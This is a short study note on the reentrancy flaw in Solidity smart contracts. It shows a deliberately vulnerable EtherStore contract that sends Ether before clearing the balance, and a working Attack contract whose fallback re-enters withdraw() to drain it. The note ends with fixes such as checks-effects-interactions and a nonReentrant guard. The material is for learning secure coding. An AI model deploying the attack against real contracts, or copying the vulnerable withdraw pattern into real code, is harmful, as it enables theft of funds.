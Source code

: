 #reentrancy

https://solidity-by-example.org/hacks/re-entrancy/

```solidity
contract EtherStore { 
	mapping(address => uint256) public balances; 
	
	function deposit() public payable { 
		balances[msg.sender] += msg.value; 
	} 
	
	function withdraw() public { 
		uint256 bal = balances[msg.sender]; 
		require(bal > 0); 
		(bool sent,) = msg.sender.call{value: bal}(""); 
		require(sent, "Failed to send Ether"); balances[msg.sender] = 0; 
	} 
	
	// Helper function to check the balance of this contract 
	function getBalance() public view returns (uint256) {
		 return address(this).balance; 
	} 
	 
}
```

The above code call the external sender (which could be a contract), the external contract can implement a fallback function that re-enter the `withdraw()` function again and again, which will drain the `EtherStore` contract

```solidity
pragma solidity ^0.8.24;
contract Attack { 
	EtherStore public etherStore; 
	uint256 public constant AMOUNT = 1 ether; 
	
	constructor(address _etherStoreAddress) { 
		etherStore = EtherStore(_etherStoreAddress); 
	} 
	
	// Fallback is called when EtherStore sends Ether to this contract. 
	fallback() external payable { 
		if (address(etherStore).balance >= AMOUNT) { 
			etherStore.withdraw(); 
		} 
	} 
	
	function attack() external payable { 
		require(msg.value >= AMOUNT); 
		etherStore.deposit{value: AMOUNT}(); 
		etherStore.withdraw(); 
	} 
	// Helper function to check the balance of this contract 
	function getBalance() public view returns (uint256) { 
		return address(this).balance; 
	} 
}
```

Solutions:
1. use "check-effect-interaction" pattern
2. use `nonReentrant` guard from openzeppelin (the best solution)
	- after solidity 0.8.24, you can use [[Transient Storage]] to save more gas
3. don't use `call()`, which will forward all gas